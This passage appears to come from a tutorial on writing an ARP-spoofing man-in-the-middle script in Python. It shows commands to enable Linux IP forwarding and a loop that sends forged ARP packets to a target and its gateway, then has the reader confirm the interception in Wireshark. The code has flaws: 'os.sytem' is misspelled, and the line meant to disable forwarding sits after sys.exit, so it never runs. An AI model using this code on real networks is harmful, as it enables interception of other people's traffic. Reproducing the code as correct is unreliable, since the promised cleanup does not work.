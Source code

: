 ## Forwarding all traffic

Now that we’ve positioned ourselves in between our target and the gateway, we should probably enable IP forwarding in linux, so we don’t take our target off the network!

You can check if IP forwarding is enabled via the following command:

```bash
# sysctl net.ipv4.ip_forward
net.ipv4.ip_forward = 0
```

As with all things computers, 0 is disabled.

To turn IP forwarding on, issue the following command:

```bash
# sysctl -w net.ipv4.ip_forward=1
net.ipv4.ip_forward = 1
```

This won’t persist after a reboot, but it’s probably a good idea to disable it after you’re done anyway.

```bash
# sysctl -w net.ipv4.ip_forward=0
net.ipv4.ip_forward = 0
```

We can add this to our spoofer script by utilizing the `os` module:

```python{numberLines: true}
import os

# ...

os.system("sysctl -w net.ipv4.ip_forward=1")
# Loop forever and beacon packets
# Note that we're wrapping the loop in a try/except KeyboardInterrupt block
# So that we can hit Ctrl-C to stop the arp spoof and allow us to clean up
try:
    while True:
        sendp([target_packet, router_packet], verbose=0)
        # Sleep for 1 second between beacons
        time.sleep(1)
except KeyboardInterrupt:
        sys.exit(1)
os.sytem("sysctl -w net.ipv4.ip_forward=0")
```

## Verifying that it works

We can verify that it works through Wireshark. Initiate the script. From the target computer, initiate a DNS query (`dig` in Linux, `nslookup` in Windows). Now, look for that DNS query in Wireshark. If there is too much spam, use the `dns` filter in Wireshark:
